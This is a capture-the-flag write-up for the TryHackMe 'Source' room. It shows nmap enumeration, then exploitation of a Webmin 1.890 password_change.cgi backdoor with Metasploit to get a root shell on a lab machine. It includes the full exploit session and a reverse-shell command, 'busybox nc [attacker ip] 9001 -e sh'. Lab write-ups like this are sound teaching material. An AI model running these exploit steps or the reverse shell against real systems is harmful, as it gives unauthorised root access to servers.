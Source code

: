 ```yaml
---
title: "Source"
date: 2025-01-25
image: /assets/img/tryhackme/Source/Source_image.jpg
description: Writeup of the TryHackMe-CTF Source
categories: [Tryhackme, Easy]
tags: [linux, webmin, exploit, metasploit]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Source</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/source">https://tryhackme.com/r/room/source</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Source.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:23 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  10000/tcp open  snet-sensor-mgmt

  Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,10000 10.10.117.181
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:24 EST
  Nmap scan report for 10.10.117.181
  Host is up (0.035s latency).

  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
  |   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
  |_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
  10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 36.59 seconds
```
From here I proceeded the analysis with port 10000.

## Port 10000 Analysis
When I first accessed the website I got the following error:

![Error](/assets/img/tryhackme/Source/thm_source_1.jpg){: width="1016" height="103"}

I added the domain name in the `etc/hosts` file and a Webmin portal was presented:

![Webmin](/assets/img/tryhackme/Source/thm_source_2.jpg){: width="318" height="354"}

After some inital enumeration I serarched for an exploit and found an <a href="https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search">attackerkb</a> entry. In the last comment stands something about metasploit.

```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .
```
The backdoor exploit sounds great, so I loaded the `Webmin password_change.cgi Backdoor`:
```bash
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > set lhost 10.21.63.26
  lhost => [attacker ip]
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.117.181
  rhosts => 10.10.117.181
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
  [!] Changing the SSL option's value may require changing RPORT!
  ssl => true
msf6 exploit(linux/http/webmin_backdoor) > exploit

  [*] Started reverse TCP handler on 10.21.63.26:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Configuring Automatic (Unix In-Memory) target
  [*] Sending cmd/unix/reverse_perl command payload
  [*] Command shell session 1 opened (10.21.63.26:4444 -> 10.10.117.181:48376) at 2025-01-25 08:43:09 -0500
  
  whoami
  root
  busybox nc [attacker ip] 9001 -e sh 
```
I wasn't able to change the directory from the shell so I started a reverse shell using `busybox`:
```bash
cd /root
	cat root.txt
	THM{*** removed ***}
cd /home
ls
	dark
cd dark
cat user.txt
	THM{*** removed ***}
```

solved! :)
